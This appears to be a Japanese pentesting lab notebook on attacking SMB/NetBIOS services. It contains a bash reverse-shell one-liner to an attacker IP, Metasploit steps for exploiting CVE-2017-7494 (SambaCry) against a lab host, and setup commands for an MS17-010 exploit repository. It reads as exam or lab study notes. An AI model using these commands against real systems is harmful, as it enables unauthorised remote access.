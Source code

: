 ```
bash -i >& /dev/tcp/192.168.119.167/4444 0>&1
```

![image-20230214231450983](img/NetBIOS(139)/image-20230214231450983.png)



### バージョンの設定

Windows Server 2016がデフォルトでSMBv1をサポートしなくなったための対応

* 末尾に設定する

```bash
sudo vi /etc/samba/smb.conf
# 設定内容
min protocol = SMB2

sudo /etc/init.d/smbd restart
```

![image-20230107093832057](img/smb(139,445)/image-20230107093832057.png)





### CVE-2017-7494(Sambacry)

Metasploitでの攻略方法しかできていない。githubのコードは動かせなかった。Forumを見ると自分でリバースシェル（ncかつ-eが使えないncでリバースシェル）を作ってPoCを実行するという流れのよう。

https://www.exploit-db.com/exploits/42084

```
msf6 > search samba is_
msf6 > use 0
msf6 exploit(linux/samba/is_known_pipename) > set RHOSTS 10.11.1.146
msf6 exploit(linux/samba/is_known_pipename) > exploit
```



### CVE-2017-0143

https://github.com/k4u5h41/MS17-010_CVE-2017-0143

```bash
git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143.git
```

```bash
pyenv local 2.7.17
pip install impacket 
pip install pycrypto
```
